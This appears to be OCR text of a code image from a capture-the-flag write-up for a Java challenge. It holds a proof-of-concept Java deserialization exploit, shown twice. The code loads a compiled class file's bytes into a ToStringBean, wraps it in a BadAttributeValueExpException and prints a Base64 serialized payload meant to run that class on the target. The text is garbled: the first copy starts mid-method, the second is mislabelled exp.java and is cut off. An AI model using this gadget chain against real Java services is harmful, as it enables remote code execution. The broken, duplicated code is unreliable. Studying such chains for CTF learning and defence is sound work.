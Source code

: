 ```java  
        byte[] bytes = Files.readAllBytes(Paths.get(&#34;/Users/f10wers13eicheng/Desktop/Java/ezgadgetexp/src/main/java/exp.class&#34;));    
        ToStringBean toStringBean = new ToStringBean();    
        setFieldValue(toStringBean,&#34;ClassByte&#34;,bytes);    
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);    
        setFieldValue(badAttributeValueExpException,&#34;val&#34;,toStringBean);    
        System.out.println(serialize(badAttributeValueExpException));    
    }    
    
    public static String serialize(Object object) throws IOException {    
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();    
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);    
        objectOutputStream.writeUTF(&#34;gadgets&#34;);    
        objectOutputStream.writeInt(2021);    
        objectOutputStream.writeObject(object);    
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());    
    }    
    
    public static void setFieldValue(Object object, String field, Object arg) throws NoSuchFieldException, IllegalAccessException {    
        Field f = object.getClass().getDeclaredField(field);    
        f.setAccessible(true);    
        f.set(object, arg);    
    }    
    
}  
```  
exp.java  
```java  
import com.ezgame.ctf.tools.ToStringBean;    
    
import javax.management.BadAttributeValueExpException;    
import java.io.ByteArrayOutputStream;    
import java.io.IOException;    
import java.io.ObjectOutputStream;    
import java.lang.reflect.Field;    
import java.nio.file.Files;    
import java.nio.file.Paths;    
import java.util.Base64;    
    
public class Poc {    
    public static void main(String[] args) throws Exception{    
        byte[] bytes = Files.readAllBytes(Paths.get(&#34;/Users/f10wers13eicheng/Desktop/Java/ezgadgetexp/src/main/java/exp.class&#34;));    
        ToStringBean toStringBean = new ToStringBean();    
        setFieldValue(toStringBean,&#34;ClassByte&#34;,bytes);    
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);    
        setFieldValue(badAttributeValueExpException,&#34;val&#34;,toStringBean);    
        System.out.println(serialize(badAttributeValueExpException));    
    }    
    
    public static String serialize(Object object) throws IOException {    
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();    
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);    
        objectOutputStream.writeUTF(&#34;gadgets&#34;);    
        objectOutputStream.writeInt(2021);    
        objectOutputStream.writeObject(object);    
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());    
    }    
    
```